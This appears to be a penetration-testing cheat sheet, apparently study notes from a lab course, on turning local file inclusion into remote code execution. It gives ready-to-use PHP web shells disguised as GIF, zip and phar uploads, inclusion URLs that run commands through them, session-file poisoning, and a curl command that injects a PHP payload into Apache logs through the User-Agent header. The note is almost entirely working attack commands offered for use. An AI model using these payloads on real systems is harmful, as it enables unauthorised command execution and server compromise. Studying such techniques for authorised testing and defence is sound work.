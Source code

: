 ## LFI and File uploads

- Image Upload
- Creating Malicious Image
    - include the image magic bytes at the beginning of the file content (e.g. GIF8)
    - `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`
- Uploaded File Path
    - `http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id`
- Zip Upload
    - `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`
    - Once we upload the shell.jpg archive, we can include it with the zip wrapper as (zip://shell.jpg), and then refer to any files within it with #shell.php (URL encoded). Finally, we can execute commands as we always do with &cmd=id, as follows:
    - `http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`
- Phar Upload
    - shell.php
    
    ```php
    <?php
    $phar = new Phar('shell.phar');
    $phar->startBuffering();
    $phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
    $phar->setStub('<?php __HALT_COMPILER(); ?>');
    
    $phar->stopBuffering();
    ```
    
    - `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`
    - specify the phar sub-file with /shell.txt (URL encoded)
    - `http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`

## Log Poisoning

- Writing PHP code in a field we control that gets logged into a log file (i.e. poison/contaminate the log file), and then include that log file to execute the PHP code. For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.
- PHP Session Poisoning
    - PHPSESSID
    - details are stored in session files on the back-end, and saved in /var/lib/php/sessions/ on Linux and in C:\Windows\Temp\ on Windows
    - The name of the file that contains our user's data matches the name of our PHPSESSID cookie with the sess_ prefix. For example, if the PHPSESSID cookie is set to el4ukv0kqbvoirg7nkp4dncpk3, then its location on disk would be /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3.
    - check `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`
    - check `http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning`
    - `http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`
    - `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`
        - session file need to be written again
- Server Log Poisoning
    - Both Apache and Nginx maintain various log files, such as access.log and error.log
    - By default, Apache logs are located in /var/log/apache2/ on Linux and in C:\xampp\apache\logs\ on Windows, while Nginx logs are located in /var/log/nginx/ on Linux and in C:\nginx\log\ on Window
    - `http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log`
    - User-Agent header is controlled by us through the HTTP request headers, so we should be able to poison this value.
    - `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"`
    - &cmd=id